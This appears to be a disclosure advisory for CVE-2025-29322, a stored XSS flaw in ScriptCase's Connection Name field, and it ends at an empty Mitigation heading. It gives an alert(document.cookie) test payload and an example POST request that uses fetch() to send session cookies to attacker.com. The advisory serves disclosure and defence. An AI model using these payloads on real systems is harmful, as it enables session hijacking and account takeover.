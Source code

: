 CVE-2025-29322: Stored Cross-Site Scripting (XSS) in ScriptCase Connection Name Field
Vulnerability Description
A stored Cross-Site Scripting (XSS) vulnerability exists in ScriptCase versions prior to v1.0.003 - Build 3. Attackers can inject arbitrary JavaScript code via the "Connection Name" field in the New Connection and Rename Connection pages. The malicious payload is stored in the application's database and executed whenever a user accesses these pages, leading to unauthorized code execution in the context of the victim's session.

Affected Component
New Connection Page: scriptcase/prod/lib/php/devel/iface/db_connection.php

Rename Connection Page: scriptcase/prod/lib/php/devel/iface/db_rename.php

Impact
Arbitrary Code Execution: Attackers can execute JavaScript in the victim's browser.

Session Hijacking: Steal cookies (e.g., PHPSESSID) to impersonate users.

Privilege Escalation: Compromise admin accounts if exploited by low-privileged users.

Information Disclosure: Exfiltrate sensitive data (e.g., database credentials).

Attack Vectors
Payload Injection:

Navigate to Database Connections → New Connection.

Enter a malicious payload in the "Connection Name" field:

html
Copy
'><script>alert(document.cookie);</script>
Run HTML
Save the connection, storing the payload.

Automatic Execution:

The payload triggers when:

A user views the New Connection page.

A user attempts to rename a connection.

Example Exploit
http
Copy
POST /scriptcase/prod/lib/php/devel/iface/db_connection.php HTTP/1.1  
Host: vulnerable-host:8092  
Content-Type: application/x-www-form-urlencoded  

connection_name='><script>fetch("https://attacker.com/steal?cookie="+document.cookie);</script>
Mitigation
